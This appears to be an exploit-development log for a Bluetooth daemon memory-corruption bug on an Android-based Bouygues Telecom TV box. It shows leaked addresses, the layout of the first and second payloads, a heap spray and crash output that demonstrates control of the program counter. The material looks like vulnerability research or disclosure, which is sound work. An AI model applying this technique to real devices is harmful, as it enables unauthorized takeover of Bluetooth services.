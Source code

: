 The deamon crashed on LDR R1, [R0] with R0 register = dead0003 when trying to load the address
We can control R0 with first payload + 0xC so if we place a valid address in it we can control R1 with the LDR R1, [R0] and than control PC with BLX R1 


########################################################################################

CONTROL PROGRAM COUNTER BY OVERFLOWING LEAKED ADDRESS

########################################################################################

Using the overflow method with the first memory address found at mem_offset 180 allow to move the crash to a branch to controlled R1 register

HCI: Got ACL connection handle: 0xb                                                                                                                             
HCI: Getting link transmit data buffer queue pointer...
HCI: Found link transmit data buffer queue at 0xa458dbc4
HCI: Getting bluetooth library function pointers...
HCI: Found SetDataAdvDataSender function at 0x8a4a3b29
HCI: Found bluetooth library base address at 0x8a3ce000
Building the payloads...
First payload:
0x00: 0xdead0000 | 0x04: 0xdead0001 | 0x08: 0xdead0002 | 0x0c: 0xa458dbc4
0x10: 0xdead0003 | 0x14: 0xdead0004 | 0x18: 0xdead0005 | 0x1c: 0xdead0006
Second payload:
0x00 : 0xa458dbc4: 0xdead0007 | 0xa458dbc8: 0xdead0008 | 0xa458dbcc: 0xdead0009 | 0xa458dbd0: 0xdead000a
0x10 : 0xa458dbd4: 0xdead000b | 0xa458dbd8: 0xdead000c | 0xa458dbdc: 0xdead000d | 0xa458dbe0: 0xdead000e
0x20 : 0xa458dbe4: 0xdead000f | 0xa458dbe8: 0xdead0010 | 0xa458dbec: 0xdead0011 | 0xa458dbf0: 0xdead0012
0x30 : 0xa458dbf4: 0xdead0013 | 0xa458dbf8: 0xdead0014 | 0xa458dbfc: 0xdead0015 | 0xa458dc00: 0xdead0016
0x40 : 0xa458dc04: 0xdead0017 | 0xa458dc08: 0xdead0018 | 0xa458dc0c: 0xdead0019 | 0xa458dc10: 0xdead001a
0x50 : 0xa458dc14: 0xdead001b | 0xa458dc18: 0xdead001c | 0xa458dc1c: 0xdead001d | 0xa458dc20: 0xdead001e
0x60 : 0xa458dc24: 0xdead001f | 0xa458dc28: 0xdead0020 | 0xa458dc2c: 0xdead0021 | 0xa458dc30: 0xdead0022
0x70 : 0xa458dc34: 0xdead0023 | 0xa458dc38: 0xdead0024 | 0xa458dc3c: 0xdead0025 | 0xa458dc40: 0xdead0026
0x80 : 0xa458dc44: 0xdead0027 | 0xa458dc48: 0xdead0028 | 0xa458dc4c: 0xdead0029 | 0xa458dc50: 0xdead002a
0x90 : 0xa458dc54: 0xdead002b | 0xa458dc58: 0xdead002c | 0xa458dc5c: 0xdead002d | 0xa458dc60: 0xdead002e
0xa0 : 0xa458dc64: 0xdead002f | 0xa458dc68: 0xdead0030 | 0xa458dc6c: 0xdead0031 | 0xa458dc70: 0xdead0032
0xb0 : 0xa458dc74: 0xdead0033 | 0xa458dc78: 0xdead0034
Prepare to connect to the target via bluetooth with your smartphone
HCI: Spraying second payload at 0xa458dbc4
Connect to the target via bluetooth with your smartphone                                                                                                        
HCI: Triggering the exploit with first payload... (1/3)
ADB: Bluetooth deamon crashed (3/20)                                                                                                                            
ADB: Found interesting crash !!!
07-20 09:28:01.020 20972 21006 F libc    : Fatal signal 11 (SIGSEGV), code 1, fault addr 0xdead0032 in tid 21006 (bt_workqueue)
07-20 09:28:01.123 21061 21061 F DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
07-20 09:28:01.123 21061 21061 F DEBUG   : Build fingerprint: 'BouyguesTelecom/BouygtelTV/HMB4213H:8.0.0/CALIFORNIE/6.30.13:user/release-keys'
07-20 09:28:01.123 21061 21061 F DEBUG   : Revision: '0'
07-20 09:28:01.123 21061 21061 F DEBUG   : ABI: 'arm'
07-20 09:28:01.123 21061 21061 F DEBUG   : pid: 20972, tid: 21006, name: bt_workqueue  >>> com.android.bluetooth <<<
07-20 09:28:01.123 21061 21061 F DEBUG   : signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0xdead0032